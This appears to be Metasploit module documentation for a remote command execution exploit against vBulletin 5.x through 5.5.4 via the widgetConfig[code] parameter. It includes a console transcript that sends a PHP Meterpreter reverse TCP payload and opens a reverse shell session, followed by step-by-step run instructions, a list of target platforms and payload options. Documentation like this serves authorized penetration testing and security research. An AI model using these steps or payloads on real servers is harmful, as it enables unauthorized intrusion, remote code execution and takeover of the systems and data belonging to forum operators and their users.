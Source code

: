 ## Introduction

vBulletin 5.x through 5.5.4 allows remote command execution via the `widgetConfig[code]` parameter in an `ajax/render/widget_php` `routestring` `POST` request.

A proof of concept was originally published on [seclist.org](https://seclists.org/fulldisclosure/2019/Sep/31).

```
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > set lhost 192.168.1.13
lhost => 192.168.1.13
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444 
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Sending stage (38288 bytes) to 192.168.1.25
[*] Meterpreter session 1 opened (192.168.1.13:4444 -> 192.168.1.25:35772) at 2019-10-18 13:53:39 +0400

meterpreter > 
```

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/vbulletin_widgetconfig_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `run`

## Targets

```
  Id  Name
  --  ----
  0   Automatic (Dropper)
  1   Linux (Stager)
  2   Windows (Stager)
  3   Unix (In-Memory)
  4   Windows (In-Memory)
```

## Options

**PHP_CMD**

Specify the PHP function in which you want execute the payload. Default: `shell_exec`

**TARGETURI**

The base URI path of vBulletin. Default: /

## Advanced options

**ForceExploit**

Override check result.

## References

  1. <https://seclists.org/fulldisclosure/2019/Sep/31>

